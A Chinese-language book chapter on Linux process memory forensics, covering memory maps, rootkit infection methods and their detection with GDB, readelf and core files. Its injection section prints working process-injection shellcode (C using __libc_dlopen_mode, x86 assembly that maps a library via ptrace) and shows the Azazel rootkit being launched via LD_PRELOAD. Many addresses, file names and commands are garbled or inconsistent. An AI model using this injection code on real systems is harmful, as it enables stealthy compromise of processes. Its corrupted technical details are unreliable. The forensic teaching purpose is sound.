接下来四个是共享库 `libc-2.19.so` 的内存映射。注意在代码段和数据段之间有一个标记为无权限的内存映射。这仅仅是为了在该区域占用空间，以防止其他二进制内存映射用于创建空间和数据段：

```
fed9c5a70000-fed9c762000 r-xp 00000000 08:01 1406096 /lib/x86_64-linux-gnu/libc-2.19.so
fed9c7620000-fed9c961000 r--p 00000000 08:01 1406096 /lib/x86_64-linux-gnu/libc-2.19.so
fed9c961000-fed9c965000 r--p 00000000 08:01 1406096 /lib/x86_64-linux-gnu/libc-2.19.so
fed9c965000-fed9c967000 rw-p 00000000 08:01 1406096 /lib/x86_64-linux-gnu/libc-2.19.so
```

### 进程内存取证

除了常规的共享库外，还有一个动态链接器，它在技术上也是一个共享库。通过查看库映射之后的文件映射，我们可以看到它是如何映射到地址空间的：

```
7fed3dc9c6900-7fed3dc8c900 r-xp 00000000 08:01 11406093 /lib/x86_64-linux-gnu/ld-2.19.so
7fed3dc8b600-7fed3dc8b500 rw-p 00000000 00:00 00:00
7fed3dc8c000-7fed3dc8c800 rw-p 00000000 00:00 00:00
7fed3dc8e000-7fed3dc8e800 r-xp 00000000 08:01 11406093 /lib/x86_64-linux-gnu/ld-2.19.so
7fed3dc8f000-7fed3dc8f800 r-xp 00000000 08:02 00:00 /lib/x86_64-linux-gnu/ld-2.19.so
7fed3dc9b000-7fed3dc9b100 rw-p 00000000 00:00 00:00
```

## 栈、vdso 和 vsyscall

在映射的末尾，你会看到由 VDSO（Virtual Dynamic Object 的缩写）和 vsyscall 的段：

```
7fff0975f000-7fff097f8000 rw-p 00000000 00:00 00:00 [stack]
7fff097b2000-7fff097b4000 r-xp 00000000 00:00 00:00 [vdso]
ffffffffffffffffffffffff601000 r-xp 00000000 00:00 00 [vsyscall]
```

VDSO 被 glibc 用于调用频繁调用的系统调用，否则会产生性能问题。VDSO 通过在用户态中执行某些系统调用来加速这一过程。vsyscall 页面在 x86_64 上已弃用，但在 32 位系统上，它完成了与 VDSO 相同的功能。

# 进程内存感染

有很多 rootkit、病毒、后门和其他工具可以用于感染系统的用户态内存。现在我们来命名并描述其中一些工具。

## 进程感染工具

- **Azasel**: 这是一个简单但有效的 Linux `LD_PRELOAD` 注入用户态 rootkit，它基于其前身名为 Lynx 的 rootkit。`LD_PRELOAD` rootkit 会将一个共享对象预加载到你想要感染的程序中。通常，这些被劫持的函数将显示为 open、read、write 等。有关更多信息，请访问 https://github.com/chokepoint/azasel。
- **Saruman**: 这是一种相对新的反取证感染技术，允许用户向现有进程中注入一个完整的动态链接可执行文件。注入的内容和注入过程在同一个地址空间内并发运行。这些还实现了隐蔽且先进的远程进程感染。有关更多信息，请访问 https://github.com/elfmaster/saruman。
- **sshd_fucker** (phrack, so 注入论文): *sshd_fucker* 是随 Phrack 59 进程感染论文一起提供的软件。该软件感染 sshd 进程，并劫持了传输用户名和密码的 PAM 函数。有关更多信息，请访问 http://phrack.org/issues/59/8.html

## 进程感染技术

进程感染意味着什么？对于我们的目的来说，它意味着描述向进程注入代码、劫持函数、劫持控制流以及增加分析难度的反取证技巧。这些技术中的许多已在*第 4 章，ELF 病毒技术——Linux/Unix 病毒*中有所涵盖，我们将对其中一些技术进行回顾。

### 感染方法

- **ET_DYN（共享对象）注入**: 这通过使用 `ptrace()` 系统调用和 shellcode 使用 `mmap()` 或 `__libc_dlopen_mode()` 函数加载共享库文件来实现。共享对象可能根本不是共享对象；它可能是一个 PIE 可执行文件，就像 Saruman 感染技术那样，这是一种反取证形式，允许程序在现有的进程地址空间内运行。这种技术我称之为进程伪装（process cloaking）。

> `LD_PRELOAD` 是另一种将恶意库加载到进程地址空间以劫持共享库函数的常用技巧。这可以通过验证 PLT/GOT 来检测。也可以对栈上的环境变量进行分析，以发现 `LD_PRELOAD` 已被设置。

- **ET_REL（可重定位）注入**: 这里的想法是向进程注入可重定位的对象文件，以用于高级补丁技术。ptrace 系统调用（或使用 `ptrace()` 的程序，如 GDB）可以用于向进程注入 shellcode，从而将对象文件映射到内存。
- **PIC 代码（shellcode）注入**: 向进程注入 shellcode 通常通过 `ptrace` 完成。通常，shellcode 是在注入更复杂的代码（如 ET_DYNAMIC 和 ET_REL）之前的第一阶段。
- **PLT/GOT 重定向**: 劫持共享库函数通常通过修改给定共享库的 GOT 条目来实现。这本质上与覆盖函数是一样的。
- **内联函数钩子（Inline function hooking）**: 这种方法称为 trampoline（跳板），在磁盘和内存中都很。攻击者可以替换函数的前 5 到 7 个字节跳转到恶意函数。这可以通过扫描每个函数的初始代码来检测。
- **补丁 .ctors 和 .dtors**: 二进制文件中的 .ctors 和 .dtors 段包含初始化和结束的函数指针数组。这些可以被攻击者进行补丁，使其指向恶意代码。
- **劫持 VDSO**: 映射到进程地址空间的 VDSO 页面包含调用系统所需的代码。攻击者可以使用 PTRACE 来找到这些代码并替换他们想要调用的系统调用号。这允许聪明的攻击者在不需要注入 shellcode 的情况下调用任何系统调用。详见 http://vxheaven.org/。

### 检测 ET_DYN 注入

我认为最常见的进程感染类型是 DLL，也称为 .so 注入。这是一种干净且有效的解决方案，适用于大多数恶意软件。让我们查看被感染的进程，我将突出我们如何识别它。

#### Azazel 用户态 rootkit 检测

我们被感染的进程是一个名为 /host 的简单程序。Azazel 是流行的 Linux rootkit 的较新版本。两者都依赖 `LD_PRELOAD` 来劫持各种 glibc 函数。

#### 映射进程地址空间

分析进程的第一步是映射地址空间。最直接的方法是查看 `/proc/<pid>/maps`。我们要注意到任何异常的文件映射和段。在我们的情况下，可能需要检查栈，因此我们要注意到它在内存中的位置。`pmap <pid>` 命令也可以替代 `cat /proc/<pid>/maps`。我倾向于直接查看 maps 文件，因为它显示了每个内存段的地址以及任何文件的完整路径。以下是一个被感染的 /host/maps 的内存映射示例：

```
$ cat /proc/.host/maps
04000000-00401000 r-xp 00000000 00:24 5553671 /home/user/git/azasel/host
06000000-00601000 r--p 00000000 00:24 5553671 /home/user/git/azasel/host
06011000-00602000 rw-p 00001000 00:24 5553671 /home/user/git/azasel/host
066c0000-0068d000 rw-p 00000000 00:0       [heap]
300100000-300101900-r-xp 00000000 08:01 11406078 /lib/x86_64-linux-gnu/libaudit.so.1.0.0
300101900-300121800---r-p 00019000 08:01 11406078 /lib/x86_64-linux-gnu/libaudit.so.1.0.0
300121800-300121900-r-p 00018000 08:01 11406078 /lib/x86_64-linux-gnu/libaudit.so.1.0.0
300121900-300122a00-r-xp 00000000 08:01 11406078 /lib/x86_64-linux-gnu/libaudit.so.1.0.0
300122a00-300122400-r-xp 00000000 00 00
300434000-300434030-r-xp 00000000 08:01 11406085 /lib/x86_64-linux-gnu/libpam.so.83
```

这可能表明存在共享库注入（也称为 ET_DYN 注入），这意味着这并非真实的 `libelinux.so` 库。在这种情况下，我们可能需要检查的是 `LD_PRELOAD` 环境变量，查看它是否被用于预载 `libelinux.so` 库。

#### 在栈上寻找 LD_PRELOAD

程序的环境变量在程序运行开始时存储在栈的底部。在 x86 架构上，由于栈向较小的地址方向增长，因此栈的底部实际上是高地址（栈的起始位置）。根据 `/proc/<pid>/maps` 的输出，我们可以获取栈的位置：

```
STACK_TOP               STACK_BOTTOM
7fff82fae000           7fff82fc0000
```

因此，我们想要从 `0x7fff82fc000` 开始开始检查。使用 GDB，我们可以附加到进程，并使用 `x/s <address>` 命令快速在栈上定位环境变量，该命令告诉 GDB 以 ASCII 格式查看内存。`x/4096s <address>` 命令执行相同的操作，但会读取 4,096 字节的数据。

我们可以安全地确保环境变量位于栈的前 4,096 字节中，但由于栈是向低地址增长的，我们必须从 `<stack_bottom> - 4096` 处开始读取。

> `argv` 和 `env` 指针分别指向命令行参数和环境变量。我们寻找的不是实际指针，而是这些指针引用的字符串。

这里有一个使用 GDB 在栈上读取环境变量的示例：

```
$ gdb -attach "pidof host"
$ x/4096s (0x7fff82fc000 - 4096)
```

... 向下翻几页 ...

```
0x7fff82ce359: "./host"
0x7fff82ce360: "LD_PRELOAD=/libelinux.so"
0x7fff82ce37b: "XDG_VTNR=7"
--按回车 <return> 继续，或输入 q <return> 退出----
0x7fff82ce386: "XDG_SESSION_ID=c2"
```

```
0x7fff82ce398: "CLUTTER_IM_MODULE=xim"
0x7fff82ce3ae: "SELINUX_INIT=YES"
0x7fff82ce3bf: "SESSION-ubuntu"
0x7fff82ce3c3: "GPG_AGENT_INFO=/run/1000/keyring-jIVX2/gpg:0:1"
0x7fff82ce403: "TERM-xterm"
0x7fff82ce40e: "SHELL=/bin/bash"
... 截断
```

从前面的输出中可以看出，我们已经证实了 `LD_PRELOAD` 被用于将 `liblinux.so` 预载到进程中。这意味着程序中任何与预载共享库中函数同名的 glibc 函数都将将被覆盖，并实际上被 `liblinux.so` 中的函数所劫持。

换句话说，如果 `/host` 程序调用了 glibc 中的 `fopen` 函数，而 `liblinux.so` 包含了其版本的 `fopen`，那么存储在 PLT/GOT（`.got` 节）中的 `fopen` 函数将用于使用，而不是 glibc 版本。这引导我们进入下一个条目——检测 PLT/GOT（PLT 的全局偏移表）中的函数劫持。

### 检测 PLT/GOT 钩子

在检查名为 `.got.plt` 的 ELF 节（位于可执行文件的数据段）中的 PLT/GOT 之前，让我们通过 `/host` 内部章节查看 `/host` 程序中哪些函数具有重定位。ELF 条目中全局偏移表的重定位项是 `<ARCH>-JUMP_SLOT` 类型。详细信息请参考 ELF(5) 手册。

> PLT/GOT 的重定位类型称为 `<ARCH>-JUMP_SLOT`，因为它们只是——PLT 使用 `imp` 指令将控制权转移到目标函数的跳转函数指针。实际的重定位类型根据架构命名为 `X86_64_JUMP_SLOT`、`i386_JUMP_SLOT` 等。


这里有一个识别共享库函数的示例：

```
$ readelf -r host
Relocation section '.rela.plt' at offset 0x418 contains 7 entries:
00000601018 001000000007 R_X86_64_JUMP_SLOT 0000000000000000 unlink + 0
00000601020 000200000007 R_X86_64_JUMP_SLOT 0000000000000000 puts + 0
```


# 第 7 章

```
000000601028 003000000007 R_X86_64_JUMP_SLOT 0000000000000000 opendir + 0
000000601030 004000000007 R_X86_64_JUMP_SLOT 0000000000000000 libc-start_main+0
000000601038 005000000007 R_X86_64_JUMP_SLOT 0000000000000000 gmon-start+0
000000601040 006000000007 R_X86_64_JUMP_SLOT 0000000000000000 pause + 0
000000601048 007000000007 R_X86_64_JUMP_SLOT 0000000000000000 fopen + 0
```

我们可以看到有许多 glibc 函数被调用。可能其中一些或全部被 `libelinux.so` 劫持了。

## GOT 地址

从显示 `./host` 可执行文件中 PLT/GOT 项的 `readelf` 输出中可以看到每个符号的地址。查看 `fopen`、`opendir` 和 `unlink` 符号的偏移表。这些可能已被劫持，不再指向 `libc.so`。

这里有一个 GDB 显示 GOT 的示例：

```
(gdb) x/gx 0x61048
0x61048 <fopen@got.plt>: 0x0007fc30b4e09

(gdb) x/gx 0x61018
0x61018 <unlink@got.plt>: 0x0007fc30b4ec81

(gdb) x/gx 0x61028
0x61028 <opendir@got.plt>: 0x0007fc30b4ed77
```

快速查看 `libelinux.so` 的可执行内存，我们看到 GDB 显示的地址指向 `libelinux.so` 内部而非 `libc.so`：

```
7fc30b4b0 r-xp /home/user/libelinux.so
```

在这个特定情况下，恶意共享库是通过 `LD_PRELOAD` 预载的，这使得该库变得可疑。情况并非如此，许多形式的恶意软件会通过 `ptrace()` 或使用 `mmap()` 的 `shell_code` 注入共享库。确定是否注入了共享库的启发式方法将在下一节详细介绍。

正如我们在后续章节中看到的，内存取证的一些功能使得识别注入的 DLL 和其他类型的 ELF 对象变得简单。

## ET_DYN 注入内部

正如我们演示的，检测使用 `LD_PRELOAD` 预载的共享库非常简单。那么注入到远程进程的共享库呢？换句话说，插入到现有进程的共享对象呢？如果我们能够采取下一步检测 PLT/GOT 钩子，那么知道是否恶意注入了共享库就是重要的。首先，我们必须识别共享库注入到远程进程的所有方法，正如我们在 7.2.2 节中简要讨论的那样。

让我们来看一个实现这一点的具体示例。这里是来自 Saruman 的向进程注入 PIE 可执行文件的示例。

- PIE 可执行文件的格式与共享库相同，因此相同的代码适用于向进程注入任何类型的文件。

使用 `readelf` 工具，我们可以看到标准 C 库 (`libc.so.6`) 中存在名为 `libc_dlopen_mode` 的函数。该函数实际上实现了 `dlopen` 函数的功能，而后者不在 `libc` 中。这意味着对于任何使用 `libc` 的进程，我们都可以让动态链接器加载我们需要的 ET_DYN 对象，同时自动处理所有的重定位补丁。

### 示例——寻找 `__libc_dlopen_mode` 符号

攻击者使用此函数将 ET_DYN 对象加载到进程中是非常常见的：

```
$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep dlopen
2128: 0000000000136160 146 FUNC GLOBAL DEFAULT 12 __libc_dlopen_mode@GLIBC_PRIVATE
```

### 代码示例——`__libc_dlopen_mode` shellcode

以下代码是用 C 语言编写的，但编译成机器码后，可以作为 shellcode 通过 `ptrace` 注入到进程中：

```c
#define RTLD_DLOPEN 0x08000000 //glibc内部dlopen标志

// 模拟 opener 行为
void *dlopen_load_exec(const char *path)
{
    void (*libc_dlopen_mode)(const char *, int) =
        dlopen_addr;

    void *handle = (void *)0xff; // 用于调试
    handle = libc_dlopen_mode(path,
        RTLD_DLOPEN|RTLD_GLOBAL);

    __RETURN_VALUE(handle);
    BREAKPOINT;
}
```

注意其中一个参数是 `dlopen_addr`。Saruman 定位了位于 `libc.so` 中的 `__libc_dlopen_mode()` 函数的地址。这是通过一个解析 libc 库内符号的函数实现的。

### 代码示例——libc 符号解析

后续代码包含许多细节，我强烈建议你查看 Saruman。它专门用于注入编译为 ET_DYN 对象的可执行程序，但正如前面提到的，该注入方法也适用于共享库，除非它们也被编译为 ET_DYN 对象。

```c
uints_t *libcp = mmap(NULL, st.st_size, PROT_READ,
MAP_PRIVATE, fd, 0);

if (libcp == MAP_FAILED) {
    perror("mmap libc");
    exit(-1);
}

symaddr = resolve_symbol((char *)name, libcp);

if (symaddr == 0) {
    printf("resolve_symbol failed for symbol\n  '%s'\n", name);
    printf("Try using -manual-elf-loading option\n");
    exit(-1);
}

symaddr = symaddr + globals.libc_addr;

DBG_MSG("[DEBUG] -> get_sym_from_libc() addr of __libc_dl_*: %lx\n", symaddr);

return symaddr;
```

为了进一步揭示共享库注入的原理，让我向你们展示一种更简单的技术：使用 `ptrace` 注入的 shellcode 来 `open()/mmap()` 将共享库映射到进程地址空间。这种技术可以使用，但它要求恶意软件手动处理所有重定位的热补丁（hot patching）。而 `__libc_dlopen_mode()` 在动态链接器本身的帮助下透明地处理了这一切，从长远来看，实际上反而更容易。

### 代码示例 – 用于 mmap() ET_DYN 对象的 x86_32 shellcode

以下 shellcode 可以被注入到给定进程的可执行分段中，然后使用 `ptrace` 执行。

注意，这是我第二次在书中中使用这段手写的 shellcode 了。它是我在 2008 年为 32 位 Linux 系统编写的，用作示例非常方便。我确定如果是在 x86_64 Linux 上，我会写一些新东西来演示更现代的方法：

```
_start:
    jmp B
```

A:

```assembly
# fd = open("libtest.so.1.0", O_RDONLY);
xor %ecx, %ecx
movb $5, %al
popl %ebx
xor %ecx, %ecx
int $0x80
```

```assembly
# mmap (0, 8192, PROT_READ|PROT_WRITE|PROT_EXEC,
MAP_SHARED, fd, 0);
xor %edx, %edx; movl %edx, (%esp)
movl $8192,4(%esp)
movl $7, 8(%esp)
movl $2, 12(%esp)
movl %eax, 16(%esp)
movl %edx, 20(%esp)
movl $90, %eax
movl %esp, %ebx
int $0x80
```

B:

```assembly
call A
.string "/lib/libtest.so.1.0",
```

通过 `PTRACE_POKETEXT` 注入它并使用 `PTRACE_SETREGS` 将 `eip` 设置为 shellcode 的入口点，shellcode 会命中 `int3` 指令，这将有效地将控制权交回给执行感染的程序。随后，该程序可以简单地从被注入共享库（/lib/libtest.so.1.0）的主进程中分离。

### 进程内存取证

在某些情况下，由于二进制文件具有 PaX mprotect 限制（https://pax.grsecurity.net/docs/mprotect.txt），无法使用 `ptrace` 系统调用将 shellcode 注入到文本段。这是因为该段是只读的，且限制也会防止文本段可写，因此你无法绕过。然而，可以通过几种方法规避，例如将指令指针指向 `__libc_dlopen_mode`并将参数存储在寄存器中（如 `%rdi`、`%rsi` 等）。在 32 位架构的情况下，可以将参数存储在栈上。

另一种方法是操纵存在于所有进程中的 VDSO 代码。

## 操控 VDSO 执行脏活

这种技术在 http://vxheaven.org/lib/vrn00.html 有演示，其基本原理很简单。VDSO 代码被映射到进程地址空间（见本章之前的 `/proc/pid/maps` 输出），它包含了通过 `syscall`（用于 64 位）和 `sysenter`（用于 32 位）调用系统内核的代码。Linux 系统调用的调用约定始终将系统调用放在 `%eax/%rax` 寄存器中。

如果攻击者使用 `ptrace(TRACE_SYSCALL, ...)`，他们可以快速定位 VDSO 代码中的 `syscall` 指令并替换寄存器值以调用所需的任何系统调用。如果操作得当并在恢复正在执行的原始系统调用，它就不会导致应用程序崩溃。`open` 和 `mmap` 系统调用可用于将 `ET_DYN` 或 `ET_REL` 等可执行对象加载到进程地址空间。或者，它们也可以用于创建一个可以存储 shellcode 的匿名内存映射。

这是一个代码示例，攻击者在 32 位系统中利用了这段代码：

```
ffff420 <__kernel_syscall>
ffff420:      51              push %ecx
ffff421:      52              push %edx
ffff422:      55              push %ebp
ffff423:      89 e5            mov %esp,%ebp
ffff425:      0f 34            sysenter
```

> 在 64 位系统上，VDSO 至少包含两个使用 syscall 指令的位置。攻击者可以操纵其中的这些位置。

以下是一个代码示例，攻击者在 64 位系统上利用了这段代码：

```
ffffffff700db8: bb 60 mov $0x60,%al
ffffffff700dba: cf 05 syscall
```

## 共享对象加载 – 合法还是非法？

动态链接器是将共享库引入进程的唯一合法方式。然而，攻击者可以使用 `libc_dlopen_mode` 函数，该函数调用动态链接器来加载对象。那么，我们如何判断动态链接器的操作是合法的呢？动态链接器将共享对象映射到进程有三种合法方式。

### 合法的共享对象加载

让我们来看看我们定义的共享对象加载：

- 可执行程序中存在与共享库文件对应的有效 `DT_NEEDED` 条目。
- 被动态链接器加载的有效共享库反过来也有自己的 `DT_NEEDED` 条目以加载其他共享库。这可以被称为传递共享库加载。
- 如果程序与 `libdl.so` 链接，则它可能使用动态链接器函数动态加载库。加载共享对象的函数名为 `dlopen`，解析符号的函数名为 `dlsym`。

> 正如我们之前讨论过的，`LD_PRELOAD` 环境变量也会调用动态链接器，但这种方法处于灰色地带，因为它通常被用于合法和非法的目的。因此，它没有包含在共享对象加载列表中。

### 非法的共享对象加载

现在，让我们看看共享对象加载到进程中的非法方式，即通过攻击者或恶意软件实例加载：

- `libc_dlopen_mode` 存在于 `libc.so`（而非 `libdl.so`）中，且不供程序调用。它实际上被标记为 GLIBC 函数。

目前，我们只看原理。我们想要获取映射到进程的共享库列表，然后查看哪些库符合被动态链接器合法加载的标准：

- 从 `/proc/<pid>/maps` 文件中获取共享对象路径列表。

> 某些恶意注入的共享库不会显示为文件映射，因为攻击者创建了匿名内存映射，然后将共享对象代码 `memmap` 到这些内存区域。在下一章中，我们将看到 ECFS 如何也剔除这些更隐蔽的实体。可以对每个可见的执行区域进行扫描，检查是否存在 ELF 头，特别是那些文件类型为 ET_DYN 的头。

- 确定执行文件中是否存在与你看到的共享库对应的有效 `DT_NEEDED` 条目。如果存在，则它是一个合法的共享库。在验证给定库是合法的之后，检查该共享动态段并列出其中的 `DT_NEEDED` 条目。这些对应的共享库也可以被标记为合法。这回到了传递式共享对象加载的概念。

- 查看进程实际执行程序的 PLT/GOT。如果使用了任何 `dlopen` 调用，则分析代码以找到对 `dlopen` 的任何调用。`dlopen` 调用可能作为可以静态检查的参数传递，例如此处：

```c
void *handle = dlopen("somolib.so", RTLD_NOW);
```

在某些情况下，字符串将存储为静态常量，因此将位于二进制文件的 `.rodata` 段中。因此，检查 `.rodata` 段（或字符串存储的地方）是否有包含你试图验证的库路径的字符串。

- 如果在 maps 文件中找到任何共享对象路径无法通过 `DT_NEEDED` 段找到，也无法通过任何 `dlopen` 调用解释，那么意味着它不是通过 `LD_PRELOAD` 预加载的，就是通过其他手段注入的。此时，你应该将该共享对象标记为可疑。

## 检测 PLT/GOT hook 的工具

目前，没有许多专门用于 Linux 内存分析的优秀工具。这就是我设计 ECFS 的原因（在第 8 章讨论，ECFS - 扩展核心文件快照技术）。我所知的只有少数工具可以检测 PLT/GOT 覆盖，并且它们本质上都使用了我们讨论过的相同启发式方法：

- **Linux VMA Voodoo**：这是我在 2021 年通过 DARPA CFT 程序设计的一个原型。它能够检测许多类型的进程内存感染，但目前仅适用于 32 位系统，且不对公开放。然而，新的 ECFS 是开源的，其灵感来源于 VMA Voodoo。你可以在 http://www.bitlacksys.org/#vmavoodoo 了解 VMA Voodoo。

- **ECFS（扩展核心文件快照）**：该技术最初设计用于作为 Linux 取证工具的原生快照格式。它已经演变成更多，并有了一个专门的章节（第 8 章，ECFS - 扩展核心文件快照技术）。可以在 https://github.com/elfmasterecfs/ 找到。

- **Volatility 插件**：Volatility 主要面向全系统内存分析，但 Georg Wicherski 在 2013 设计了一个专门用于检测进程内 PLT/GOT 感染的插件。该插件使用了与我们之前讨论类似的启发式方法。该功能已合并到 Volatility 源码中：https://github.com/volatilityfoundation/volatility。

## Linux ELF 核心文件

大多数 UNIX 操作系统中，进程触发信号会导致导出转储文件（core file）。核心文件是进程在崩溃（崩溃或转储）之前的状态快照。核心文件是 ELF 文件的一种类型，主要由程序头和内存段组成。它们在 `PT_NOTE` 段中还包含大量的注释（notes），描述了文件映射、共享库路径和其他信息。

核心文件本身对进程内存取证并不是特别有用，但它对于最敏锐的分析师来说，可能会产生一些结果。

> 这实际上 ECFS 发挥作用的地方；它是常规 Linux ELF 核心格式的扩展，提供了专门用于取证分析的功能。

### 核心文件分析 – Azazel rootkit

在这里，我们将使用 `LD_PRELOAD` 环境变量用 azazel rootkit 感染进程，然后向进程发送一个 abort 信号，以便我们捕获核心 dump 进行分析。

#### 启动被 Azazel 感染的进程并获取核心 dump

```bash
$ LD_PRELOAD=./libselinux.so ./host &
[1] 9325
$ kill -ABRT "pidof host"
[1]+ Segmentation fault (core dumped) LD_PRELOAD=./libselinux.so /host
```


# 核心文件程序头

在核心文件中，有很多程序头。除了一个 `PT_LOAD` 类型外，所有的都是如此。进程中的每个内存段都有一个 `PT_LOAD` 程序头，特殊设备（如 `/dev/mem`）除外。从共享库、匿名映射到栈、堆、文本段和数据段，一切都由一个程序头表示。

然后，有一个 `PT_NOTE` 类型的程序头；它包含了整个核心文件中最用且描述最详尽的信息。

# PT_NOTE 段

`readelf -n` 输出显示了核心文件注释段的解析。我们使用 `readelf` 而不是普通的 `readelf` 是因为 `readelf` (binutils 版本) 需要时间解析注释段中的每个条目，而更常用的 `readelf` (Utils 版本) 显示：

```
$ readelf -n core

Note segment 4200 bytes at offset 0x900: Owner size 336 Type CORE

info.si_sign: 11, info.si_code: 0, info.si_errno: 0, sigold: 11 Process Forensics

pid: 9875, ppid: 7669, pgrp: 9875, sid: 5781

utime: 5.292000, stime: 0.004000, cutime: 0.000000, cstime: 0.000000

rax: -1, fpgval:

register | register |

| r15: 0 | r14: 0 |

| r13: 1407361825012 | r12: 4196516 |

| rbp: 0x0007fff253a0 | rbx: 0 |

| r11: 582 | r10: 1407361825043 |

| r9: 15699984 | r8: 18868400 |

| rax: -1 | rcx: -1 |

| rdx: 14064792738298 | rsi: 4294967295 |

| rdi: 4196093 | rip: 0x00000000064f |

| rflags: 0x000000000286 | rbp: 0x0007fff253b90 |

| fs.base: 0x007fff16a140 | gs.base: 0x000000000000 |

| cs: 0x0033 | ds: 0x002b | es: 0x0000 | gs: 0x0000 | # PRSIG

state: 0, name: R, zomb: 0, nice: 0, flag: 0x000000000660

uid: 0, gid: 0, ppid: 9875, pgrp: 7669, sid: 5781

fname: host, parargs: /host

# SIGINFO

si_sign: 11, si_errno: 0, si_code: 0

sender: 7669, UID: 0

# UIDV

SYS_HDR: 0x7fff254a000

HWAP: 0xfefebfff <fpu vme of pse tsc mar pe mce apic set mtr pge mca

cmov pat pse36 flush dt acpi mx fxr sse2 ss ht tm pbe>

PAGESZ: 4096

CLKTC: 100

PHDR: 0x400040

PHENT: 56

PHNUM: 9

BASE: 0x7fff1675ae000

FLAGS: 0

ENTRY: 0x400520

UID: 0

GID: 0

EGID: 0

SECURE: 0

RANDOM: 0x7fff25383939

EXECCPN: 0x7fff25383ff1

PLATFORM: 0x7fff25383a9

# NULL

# Chapter 7

CORE

1812 FILE

30 files:

- 04000000-04001000 00000000 4096 /home/user/git/azaz/host

- 06000000-06001000 00000000 4096 /home/user/git/azaz/host

- 06010000-06020000 00100100 4096 /home/user/git/azaz/host

- 30100000-301019000 00000000 102400 /lib/x86_64-linux-gnu/libaudit.so.1.0.0

- 301019000-301218000 00192000 209356 /lib/x86_64-linux-gnu/libaudit.so.1.0.0

- 301218000-301219000 00180000 4096 /lib/x86_64-linux-gnu/libaudit.so.1.0.0

- 301219000-301219a00 00193000 4096 /lib/x86_64-linux-gnu/libaudit.so.1.0.0

- 30340000-30340300 00000000 53248 /lib/x86_64-linux-gnu/libpam.so.83.1

- 30340300-30360c00 0022000 209356 /lib/x86_64-linux-gnu/libpam.so.83.1

- 30360c00-30360c00 0000c00 4096 /lib/x86_64-linux-gnu/libpam.so.83.1

- 30360c00-3036e000 0002000 4096 /lib/x86_64-linux-gnu/libit.so.2.19

- 77f66bd900-77f66bb00 0002000 8192 /lib/x86_64-linux-gnu/libit.so.2.19

- 77f66bd000-77f6dd000 0000200 209356 /lib/x86_64-linux-gnu/libit.so.2.19

- 77f66da000-77f6dc000 0010010 4096 /lib/x86_64-linux-gnu/libit.so.2.19

- 77f66db000-77f6de000 0000200 4096 /lib/x86_64-linux-gnu/libldl.so.2.19

- 77f66dc000-77f6fe000 0000000 12888 /lib/x86_64-linux-gnu/libldl.so.2.19

- 77f66df000-77f6fe000 0000200 209356 /lib/x86_64-linux-gnu/libldl.so.2.19

- 77f66ea000-77f6fe000 0002000 4096 /lib/x86_64-linux-gnu/libldl.so.2.19

- 77f6fe000-77f671b000 0000000 181428 /lib/x86_64-linux-gnu/liblibc.so.2.19

- 77f671b000-77f6739a00 001b000 209356 /lib/x86_64-linux-gnu/liblibc.so.2.19

- 77f6739a00-77f6739e00 001ba00 16384 /lib/x86_64-linux-gnu/liblibc.so.2.19

- 77f6739e00-77f673ad00 001be00 8192 /lib/x86_64-linux-gnu/liblibc.so.2.19

- 77f673ad000-77f677a500 0000000 209356 /home/user/git/azaz/selinux.so

- 77f677a500-77f67ac000 0000000 4096 /home/user/git/azaz/selinux.so

- 77f675ac000-77f675e000 0007000 4096 /home/user/git/azaz/selinux.so

- 77f675e000-77f675ae000 0008000 4096 /home/user/git/azaz/selinux.so

- 77f675ae000-77f675d1000 0000000 143360 /lib/x86_64-linux-gnu/libldl.so.2.19

- 77f677d000-77f67d1000 0002200 4096 /lib/x86_64-linux-gnu/libldl.so.2.19

- 77f677d1000-77f677d2000 0002300 4096 /lib/x86_64-linux-gnu/libldl.so.2.19

# PT_LOAD 段与核心文件在取证分析中的局限性

每个内存段都包含一个程序头，描述了该段所代表的偏移量、地址和大小。这似乎暗示了你可以通过程序段访问进程映像的每一个部分，但这种说法只有部分是正确的。可执行文件的文本映像以及映射到进程的每个共享库，只有其前 4,096 字节会被转储到段中。

这样做是为了节省空间，也是因为 Linux 内核开发者认为文本段在内存中不会被修改。因此，当从调试器访问文本区域时，引用原始的可执行文件和共享库就足够了。如果核心文件转储每个共享库的完整文本段，那么对于像 Wireshark 或 Firefox 这样的大程序，输出的转储文件将是巨大的。

从调试的角度来看，通常可以假设内存中的文本段没有变化，只需引用可执行文件和共享库文件本身即可。但对于运行时恶意软件分析和进程取证又呢？在很多情况下，文本段被标记为可写，并包含用于代码变异的多态引擎，在这些情况下，核心文件对于查看代码段可能是没用的。

此外，如果核心文件是唯一可用的分析产物，而原始的可执行文件和共享库已无法访问怎么办？这进一步证明了为什么核心文件不是特别适用于进程取证；它们起初也并非为此设计的。

> 在下一章中，我们将看到 ECFS 如何解决许多导致核心文件在取证分析中成为无用产物的缺陷。

# 使用 GDB 配合核心文件进行取证

结合原始可执行文件，并假设没有对（文本段）进行任何代码修改，我们仍然可以使用核心文件来辅助恶意软件分析。在这种情况下，我们正在查看一个 Azaz rootkit 的核心文件，正如今天早些时候演示的，它具有 PLT/GOT Hook：

```
$ readelf -S host | grep got.plt
[23] .got.plt PROGBITS 000000000601000 00001000
$ readelf -r host
```

重定位段 '.rela.plt' 偏移量 0x3f8 包含 6 个条目：

| 偏移量 | 信息 | 类型 | 符号值 | 符号名称 + |
|---|---|---|---|---|
| 0000060118 | 0010000007 | R_X86_64_JUMP_SLO | 0000000000000000 | unlink + 0 |
| 0000060120 | 0020000007 | R_X86_64_JUMP_SLO | 0000000000000000 | puts + 0 |
| 0000060128 | 0030000007 | R_X86_64_JUMP_SLO | 0000000000000000 | opendir + 0 |
| 0000060130 | 0040000007 | R_X86_64_JUMP_SLO | 0000000000000000 | _libc_start_main+0 |
| 0000060138 | 0050000007 | R_X86_64_JUMP_SLO | 0000000000000000 | gmon_start_ + 0 |
| 0000060140 | 0060000000 | R_X86_64_JUMP_SLO | 0000000000000000 | fopen + 0 |

所以，让我们来看看我们被 Azal 注入的函数。`fopen` 函数是函数中的四个共享库之一，正如我们从后续代码看到的，它在 `0x601040` 处有一个 GOT 条目

```
$ db -q /host core
Reading symbols from ./host...(no debugging symbols found)...done.
[New LWP 9875]
Core was generated by './host'.
Program terminated with signal SIGSEGV, Segmentation fault
#0 0x00000000040064f in main ()
(gdb) x/gx <fopen@plt>: 0x601040 0x00007ff1673a8609
(gdb)
```

如果我们再次查看 `PT_NOTE` 段中的 `NT_FILE` 条目（`readelf -n core`），我们可以看到地址范围内 `libc-2.19.so` 文件已映射到内存中，并检查 `fopen` 的 GOT 是否指向它应该指向的 `libc-2.19.so`：

```
